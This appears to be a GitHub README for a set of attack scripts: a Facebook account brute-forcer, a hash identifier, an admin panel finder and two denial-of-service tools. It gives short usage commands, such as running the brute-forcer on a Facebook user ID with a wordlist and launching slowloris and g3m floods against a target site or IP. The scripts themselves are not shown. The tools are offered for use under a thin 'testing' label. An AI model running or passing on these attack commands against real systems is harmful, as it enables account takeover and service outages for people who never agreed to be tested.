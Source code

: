 # Scripts for testing.

* fb-brute.pl = Bruteforce for Facebook
* hash_id_v1.1.py = Hash Identifier
* painel.pl = Admin Control Panel Finder
* slowloris.pl = Denial of Service
* g3m = Denial of Service

How to Install and use
----

'fb-brute.pl'
```sh
$ sudo chmod +x fb-brute.pl
$ perl fb-brute.pl id-user-facebook wordlist.txt
```

`hash_id_v1.1.py`
```sh
$ sudo chmod +x hash_id_v1.1.py
$ python2 hash_id_v1.1.py
``` 

 - painel.pl:
```sh
$ sudo chmod +x painel.pl
$ perl painel.pl
```

 - slowloris.pl:
```sh
$ sudo chmod +x slowloris.pl
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP
```

 - g3m:
```sh
$ sudo chmod +x g3m
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites
```
